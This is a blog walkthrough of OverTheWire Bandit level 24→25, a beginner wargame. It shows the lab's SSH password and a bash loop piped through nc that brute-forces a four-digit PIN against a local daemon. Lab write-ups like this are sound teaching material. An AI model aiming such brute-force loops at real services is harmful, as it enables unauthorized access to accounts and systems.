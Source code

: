 ```yaml
---
layout: post
title: "Bandit Level 24 → Level 25 | OverTheWire"
description: "Learn linux command by playing Bandit wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 24 → Level 25. In this level you will learn how to bruteforce password and connect to a remote machine on a port. The passwords are hidden, so you have to find the passwords for next level yourself."
author: "Programmercave"
header-img: "/assets/Bandit-Overthewire/overthewire_poster.jpg"
tags:  [Linux, OverTheWire-Bandit, CTF]
date: 2019-12-26
---
```

* toc
{:toc}

Learn linux command by playing [Bandit](https://overthewire.org/wargames/bandit/) wargame. The Bandit wargame is aimed at absolute beginners. It will teach the basics needed to be able to play other wargames. Below is the solution of Bandit Level 24 → Level 25. 

In this level you will learn how to bruteforce password and connect to a remote machine on a port. 

The passwords are hidden, so you have to find the passwords for next level yourself.

![Bandit OverTheWire]({{ site.url }}/assets/Bandit-Overthewire/overthewire_poster.jpg){:class="img-responsive"}

### Previous Post

[Bandit Level 0 to Level 3]({{ site.url }}/blog/2019/12/21/Bandit-Level-0-to-Level-5-OverTheWire)<br/>
[Bandit Level 4 to Level 8]({{ site.url }}/blog/2019/12/22/Bandit-Level-4-to-Level-9-OverTheWire)<br/>
[Bandit Level 9 to Level 11]({{ site.url }}/blog/2019/12/24/Bandit-Level-9-to-Level-12-OverTheWire)<br/>
[Bandit Level 12 → Level 13]({{ site.url }}/blog/2019/12/24/Bandit-Level-12-Level-13-OverTheWire)<br/>
[Bandit Level 13 to Level 15]({{ site.url }}/blog/2019/12/24/Bandit-Level-13-to-Level-16-OverTheWire)<br/>
[Bandit Level 16 to Level 18]({{ site.url }}/blog/2019/12/24/Bandit-Level-16-to-Level-19-OverTheWire)<br/>
[Bandit Level 19 to Level 20]({{ site.url }}/blog/2019/12/25/Bandit-Level-19-to-Level-20-OverTheWire)<br/>
[Bandit Level 21 to Level 22]({{ site.url }}/blog/2019/12/25/Bandit-Level-21-to-Level-23-OverTheWire)<br/>
[Bandit Level 23 → Level 24]({{ site.url }}/blog/2019/12/25/Bandit-Level-23-Level-24-OverTheWire)

## [Bandit Level 24 → Level 25](https://overthewire.org/wargames/bandit/bandit25.html)

### Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

### Solution : 

Command to connect remote host : `ssh bandit24@bandit.labs.overthewire.org -p 2220` password is `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ` .

We can connect on port 30002 in a same way as we have done in level 20. We also have to pass password for current level and the 4 digit pin.The command is
```
nc localhost 30002  UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ****
```

To brute-force pin we wil write a shell script in */tmp/mydir123* directory.
 
The script is
``` 
#!/bin/bash
for i in {0000..9999}
do 
	echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done
```

The name of the script is *bruteforcescript.sh* and file *combinations.txt* will store all combinations of 4 digit number with password for bandit20. First we have to make bruteforcescript.sh executable using command 
```
chmod 700 bruteforcescript.sh
./bruteforcescript.sh > combinations.txt
```

And the final command is
```
nc localhost 30002 < combinations.txt
```
The password for the next level is `****` .

![Bandit Level 24 25]({{ site.url }}/assets/Bandit-Overthewire/bandit_l2425_terminal.jpg){:class="img-responsive"}

Reference : [https://unix.stackexchange.com/questions/432904/brute-force-4-digit-pin-with-pass-using-shell-script](https://unix.stackexchange.com/questions/432904/brute-force-4-digit-pin-with-pass-using-shell-script)<br/>
[https://skyenet.tech/brute-force-password-attacking/](https://skyenet.tech/brute-force-password-attacking/)

### Next Post

[Bandit Level 25 to Level 26]({{ site.url }}/blog/2019/12/26/Bandit-Level-25-to-Level-26-OverTheWire)<br/>
[Bandit Level 27 to Level 31]({{ site.url }}/blog/2019/12/26/Bandit-Level-27-to-Level-31-OverTheWire)<br/>
[Bandit Level 32 → Level 33]({{ site.url }}/blog/2019/12/26/Bandit-Level-32-Level-33-OverTheWire)<br/>

### Other Wargames
[Leviathan Wargame from OverTheWire All Level Solutions]({{ site.url }}/blog/#overthewire-leviathan)<br/> 
[Krypton Wargame from OverTheWire All Level Solutions]({{ site.url }}/blog/#overthewire-krypton)<br/>


